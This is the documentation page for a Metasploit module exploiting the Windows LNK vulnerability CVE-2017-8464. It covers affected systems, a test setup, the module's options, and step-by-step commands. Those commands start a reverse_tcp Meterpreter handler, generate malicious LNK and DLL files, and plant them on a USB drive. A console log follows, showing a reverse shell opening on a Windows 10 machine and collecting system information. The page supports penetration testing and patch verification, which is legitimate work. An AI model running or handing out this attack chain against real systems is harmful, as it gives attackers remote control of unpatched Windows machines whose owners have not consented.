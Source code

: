 ## Vulnerable Application

Any Windows versions without the patch for CVE-2017-8464. The exploit doesn't appear to work with UNC drives. Because of this the DLL file needs to be on the local file system or an USB drive. A fix was released on June 2017 Patch Tuesday.

## Vulnerable Setup

To set up the vulnerable environment, install a Windows version without the patch for CVE-2017-8464. To test the bypass, make sure that MS10-046 & MS15-020 are installed.

## Verification Steps

### Start a handler
  1. `use exploit/multi/handler`
  2. `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
  3. `set LHOST [ip victim connects back to]`
  4. `exploit -j`
  5. `back`

### Run the exploit

  1. `use exploit/windows/smb/cve_2017_8464_lnk_rce`
  2. `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
  3. `set LHOST [ip victim connects back to]`
  4. `exploit`

### Copy files to USB drive & open on vulnerable system

  1. `cp /root/.msf4/local/* [USB drive path]`
  2. Insert device in target machine and browse to it
  
## Options

**FILENAME**

The file name of the LNK file. This file name can be renamed in a letter stage. If not set, a random name will be generated.

**DLLNAME**

The file name of the DLL file. This file name cannot be renamed as this will invalidate the LNK file(s). If not set, a random name will be generated.

**DRIVE**

Drive letter assigned to USB drive on victim's machine. If not set LNK files for drive D till Z will be created. Copy all these LNK files to the USB drive to make it more likely that the vulnerability is triggered.

### Windows 10 x64 (Build 14393)

```
msf > use exploit/multi/handler 
msf exploit(handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.146.197
LHOST => 192.168.146.197
msf exploit(handler) > exploit -j
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.146.197:4444 
[*] Starting the payload handler...
msf exploit(handler) > back
msf > use exploit/windows/smb/cve_2017_8464_lnk_rce 
msf exploit(cve_2017_8464_lnk_rce) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf exploit(cve_2017_8464_lnk_rce) > set LHOST 192.168.146.197
LHOST => 192.168.146.197
msf exploit(cve_2017_8464_lnk_rce) > exploit

msf exploit(cve_2017_8464_lnk_rce) > exploit

[*] /root/.msf4/local/kNgYlztVprHPOmHY.dll created, copy it to the root folder of the target USB drive
[*] /root/.msf4/local/SoXXZhgCWEDkbDyA_D.lnk created, copy to the target USB drive
[*] /root/.msf4/local/rfuSAlSFEPmrgsBh_E.lnk created, copy to the target USB drive
[*] /root/.msf4/local/LydLhRBovVRINgUh_F.lnk created, copy to the target USB drive
[*] /root/.msf4/local/xbpnlkcQOYonGpKW_G.lnk created, copy to the target USB drive
[*] /root/.msf4/local/SezkrIUwqIVvMiOZ_H.lnk created, copy to the target USB drive
[*] /root/.msf4/local/UzsJRIdcpoZPpLEj_I.lnk created, copy to the target USB drive
[*] /root/.msf4/local/BxTkakFYhUaxSNyi_J.lnk created, copy to the target USB drive
[*] /root/.msf4/local/dPdanTusElQRKzGZ_K.lnk created, copy to the target USB drive
[*] /root/.msf4/local/cKUaDslpjLshMEpP_L.lnk created, copy to the target USB drive
[*] /root/.msf4/local/RQPOxJeuGqVCQGNB_M.lnk created, copy to the target USB drive
[*] /root/.msf4/local/tLDnpaeIeUavIxqP_N.lnk created, copy to the target USB drive
[*] /root/.msf4/local/VVQOvhpqJYbhINIX_O.lnk created, copy to the target USB drive
[*] /root/.msf4/local/dAIEBrbaixsXjnnm_P.lnk created, copy to the target USB drive
[*] /root/.msf4/local/AoHnIQhKkpnYSOZR_Q.lnk created, copy to the target USB drive
[*] /root/.msf4/local/kZCCppTXKsuGRSCB_R.lnk created, copy to the target USB drive
[*] /root/.msf4/local/vMBPqzoOEoJXhZqQ_S.lnk created, copy to the target USB drive
[*] /root/.msf4/local/ueCsaNzVsljfHKnS_T.lnk created, copy to the target USB drive
[*] /root/.msf4/local/TSCgPoYrFFnZqMsl_U.lnk created, copy to the target USB drive
[*] /root/.msf4/local/QFbXkQeBmCvXezNg_V.lnk created, copy to the target USB drive
[*] /root/.msf4/local/liPaOopqYJbBIrVY_W.lnk created, copy to the target USB drive
[*] /root/.msf4/local/eZiWpyEYbkWHqStW_X.lnk created, copy to the target USB drive
[*] /root/.msf4/local/PawzVPKmvBoSblhA_Y.lnk created, copy to the target USB drive
[*] /root/.msf4/local/vJhDzJUydwYxnLlp_Z.lnk created, copy to the target USB drive
msf exploit(cve_2017_8464_lnk_rce) > 
[*] Sending stage (1189423 bytes) to 192.168.146.193
[*] Meterpreter session 1 opened (192.168.146.197:4444 -> 192.168.146.193:50020) at 2017-07-25 19:28:27 +0200
sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP-5G8HK7E
OS              : Windows 10 (Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > 
```
